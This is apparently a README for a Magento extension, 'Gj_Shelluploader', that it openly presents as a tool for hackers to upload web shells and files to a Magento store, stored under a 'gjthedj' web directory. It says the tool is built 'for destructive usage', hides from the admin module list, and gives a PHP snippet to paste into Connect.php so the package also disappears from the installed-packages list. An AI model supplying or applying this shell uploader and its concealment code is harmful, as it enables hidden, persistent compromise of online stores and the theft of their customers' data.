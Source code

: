 # Gj_Shelluploader-1.0.0
Extension helps hacker to upload shell/files in Magento

Dependency: Admin Panel Credentials(To install extension.).

As this extension is made for destructive usage
Extension wont be found on admin > system > configuration > advanced > disable modules output(installed modules list even if its installed.).
Even if on Magento connect manager or downloader you can find our extension if you wanna hide it from there,
you can edit magento-root/downloader/Maged/Model/Connect.php there find function getAllInstalledPackages()
just paste below code at the last & before return statement

if(array_key_exists('Gj_Shelluploader',$packages['community']))
{ unset($packages['community']['Gj_Shelluploader']); }

Uploaded files will be stored "gjthedj" directory(yoursiteurl/gjthedj/filename.).
